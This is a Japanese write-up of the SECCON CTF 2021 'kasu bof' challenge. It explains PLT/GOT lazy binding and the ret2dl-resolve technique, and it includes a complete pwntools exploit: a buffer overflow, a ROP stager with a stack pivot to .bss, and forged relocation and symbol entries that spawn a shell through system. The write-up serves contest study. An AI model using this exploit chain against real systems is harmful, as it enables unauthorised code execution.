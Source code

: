 # SECCON CTF 2021 `kasu bof [pwn]` writeup
お初にお目にかかります。
Caffeineと申します☕

SECCON CTF 2021にチームWaniHackaseとして参加させていただきました。

## 問題

![kasu bof](problem.png)

実行ファイルとそのソースコードが配布されている。

```c
#include <stdio.h>

int main(void) {
  char buf[0x80];
  gets(buf);
  return 0;
}
```

## 解法
最初に取り掛かったのはチームメイトのsaruさん。
何はともあれセキュリティ機構のチェックから
```
[*] '/home/saru/autopwn/db/2021/12_seccon/kasu_bof/chall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Loading gadgets for 
```
canaryがないことからBoFだろうとのこと。
PIEも無効なので実行ファイルのアドレスは最初から分かっている。
gets関数のリターンアドレスを書き換えてROPに持ち込むことができそう。

以降の指針は問題文内で示されている。を見ればret2dl resolve attackを使えばいいとのことらしい。が、勉強したことがない。
私よりpwn歴の長いチームメンバーも初対面の問題だった様子。
過去のwriteupや解説記事をチームで共有しながら理解を深めて地道に取り組んでいくことに。

### ret2dl resolve attackとは
ret2dl resolve attackはELFの遅延リンクの仕組みを利用して、共有ライブラリ内の関数を呼び出す攻撃手法。
遅延リンクとは、Partial RELROにおいて関数が最初に呼び出された時に外部アドレスをGOTにキャッシュする方式である。
遅延リンクはPLTによって実現される。
配布されたプログラムを例にPLTのはたらきを解説する。

![kasu bof](plt.png)

まず、初回の関数呼び出しの例を見ていこう。
main関数内でgets関数が呼ばれる。
呼び出し先は.pltセクション内のgets関数がエントリされているアドレスである (①)。
.pltセクション内のgets関数は、.got.pltセクションのgets関数がエントリされているアドレスを呼び出す (②)。
.got.pltセクション内のgets関数は呼び出し元となる.pltセクション内の機械語の次のアドレスを指す (③)。
.pltセクション内に戻ると、スタックに0x0をpushしたのちに (後述).pltセクションの先頭のアドレスにjmpする (④)。
.pltセクションの先頭のアドレスでは、0x804c004にあるアドレスをpushした後に0x804c008にあるアドレスを参照してjmpする(⑤)。
0x804c004と0x804c008は.got.pltセクション内のアドレスであり、実行時にはそれぞれ.bssセクションの後ろのアドレス、dl_runtime_resolve関数のアドレスが入る。
dl_runtime_resolve関数は.bssセクションの後ろのアドレスと.pltセクションでスタックにpushした0x0を引数に取ってアドレス解決を行う。
アドレス解決が行われると、GOTのgets関数のエントリがlibc上のgets関数のアドレスに書き換えられる。
その後、得られたlibc上のgets関数のアドレスにjmpする。

続いて2回目以降の関数呼び出しの例を確認する。
.pltセクション内のgets関数がエントリされているアドレスを呼び出し先に、main関数内でgets関数が呼ばれる (①)。
.pltセクション内のgets関数は、GOTのgets関数のエントリを参照する (②)。
gets関数の初回実行時にlibc上のアドレスがキャッシュされているはずなので、アドレス解決の過程を経ずにgets関数のアドレスにjmpする (③)。

![kasu bof](dl_runtime_resolve.png)

関数の初回実行時にdl_runtime_resolve関数で行われるアドレス解決の流れを図示する。
dl_runtime_resolve関数や後述のリンクテーブルの実装はアーキテクチャによって実装が異なるが、今回は32ビットアーキテクチャを例に解説する。
dl_runtime_resolve関数は、.rel.pltセクションの先頭アドレスから第2引数 (例においては0x0)だけオフセットしたアドレスを参照する (①)。
.rel.pltはリロケーションテーブルと呼ばれ、各要素はr_offsetとr_infoの2つのメンバからなる構造体である。
r_offsetは当該関数のGOTのアドレスを示す。
r_infoは上位8ビットに.dynsymセクションにおける当該関数のインデックスを、下位8ビットには再配置の種類を保持する。
r_infoの上位8ビットを基に、.dynsymセクションの対応するインデックスの要素を見る (②)。
.dynsymはシンボルテーブルと呼ばれ、各要素はst_name、st_value、st_size、st_info、st_other、st_shndxの6つのメンバを持つ構造体として実装される。
各メンバのうち、動的リンクに深く関わるのはst_nameである。
dl_runtime_resolve関数は.dynstrセクションの先頭からst_nameだけオフセットした位置にある文字列を参照する (③)。
参照された文字列を基に名前解決を行い (④)、得られたlibc上のアドレスをr_offsetが示すGOTのアドレスに上書きする (⑤)。

![kasu bof](ret2dl_resolve_attack.png)

ret2dl resolve attackでは、下図のような挙動を狙う。
一見すると.dynstrの当該文字列を書き換えるだけだが、実際には.dynstrセクションに書き込み権限はない。
そこで、dl_runtime_resolve関数の第2引数のオフセットをを調整して自作した偽のリンク機構を動作させることを狙ってみる。
リンクを作成するために用意したテーブルのアドレスを知っておく必要があるが、固定アドレスへの書き込みが可能であればret2dl resolve attackが達成できる

### Exploit
まず固定アドレスへの書き込みを実現するために.bssセクションを狙ったROP stagerを行う。
.bssセクションにデータを書き込んでstack pivotした後、.pltセクションの先頭のアドレスにjmpする。
前述の通り第2引数のオフセットを調節してdl_runtime_resolve関数を呼べば、自作した動的リンクを経てsystem関数が呼び出せる。

気を付けなくてはならないのは、dl_runtime_resolve関数が各種健全性テストを行っていること。
具体的には
+ .rel.pltを構成する構造体のメンバr_infoの下位8ビットが0x7であること。
  + 遅延リンクによる起動であることを示す。
+ .dynsymを構成する構造体のメンバst_infoが0x12であること。
  + シンボルがグローバル関数であることを示す
+ .dynsymの構造体が.dynsymセクションの先頭アドレスから0x10バイトの整数倍進んだアドレスに配置されていること。
  + .dynsymを構成する構造体のサイズが0x10バイトであるため。
を確認している。

以上を踏まえてexploit codeを作成する。

```py
import pwn
import sys

buf_size = 132

# 必要なアドレスのリーク
addr_dynsym_start = 0x804820c
addr_dynstr_start = 0x804825c
addr_relplt_start = 0x80482d8
addr_plt_start = 0x8049030
addr_plt_gets = 0x8049040
addr_got_gets = 0x804c00c
addr_bss = 0x804c01c

# ROP gadget
addr_pop_ebx = 0x08049022    # pop ebx ; ret ;
addr_pop_ebp = 0x080491ae    # pop ebp ; ret ;  
addr_leave_ret = 0x080490e5  # leave  ; ret ;

# pivot先のアドレス
stack_size = 0x800
addr_base_stage = addr_bss + stack_size
reloc_offset = (addr_base_stage + 20) - addr_relplt_start
addr_sym = addr_base_stage + 28
align_dynsym = 0x10 - ((addr_sym - addr_dynsym_start) & 0xF)
addr_sym += align_dynsym
index_dynsym = (addr_sym - addr_dynsym_start) // 0x10
r_info = (index_dynsym << 8) | 0x7
addr_arg = addr_base_stage + 80
st_name = (addr_sym + 16) - addr_dynstr_start

# 文字列の準備
system = b"system\x00"
binsh = b'/bin/sh <&2 >&2\x00'

io = pwn.remote("hiyoko.quals.seccon.jp", 9001)
# io = pwn.process("./chall")

# ROP stager
s = b"A" * buf_size
s += b"AAAA" 
s += pwn.p32(addr_plt_gets)
s += pwn.p32(addr_pop_ebx)
s += pwn.p32(addr_base_stage)
s += pwn.p32(addr_pop_ebp)
s += pwn.p32(addr_base_stage)
s += pwn.p32(addr_leave_ret)
s += b"\n"

io.send(s)

# ret2dl resolve attack
s = b"AAAA"
s += pwn.p32(addr_plt_start)
s += pwn.p32(reloc_offset)
s += b"AAAA"
s += pwn.p32(addr_arg)
s += pwn.p32(addr_got_gets)
s += pwn.p32(r_info)
s += b'A' * align_dynsym
s += pwn.p32(st_name)
s += pwn.p32(0)
s += pwn.p32(0)
s += pwn.p32(0x12)
s += system
print(len(s))
s += b'A' * (80-len(s))
s += binsh
s += b'A' * (100-len(s))
s += b"\n"

io.send(s)

io.interactive()
```

FLAG: `SECCON{jUst_4_s1mpL3_b0f_ch4ll3ng3}`

## 参考記事
+ ももいろテクノロジー，"ROP stager + Return-to-dl-resolveによるASLR+DEP回避" https://inaz2.hatenablog.com/entry/2014/07/15/023406
+ sounakano，"ret2dl resolve - SlideShare" https://www.slideshare.net/sounakano/ret2dl-resolve
+ "CTF Pwn - A painter and a black cat" https://raintrees.net/projects/a-painter-and-a-black-cat/wiki/CTF_Pwn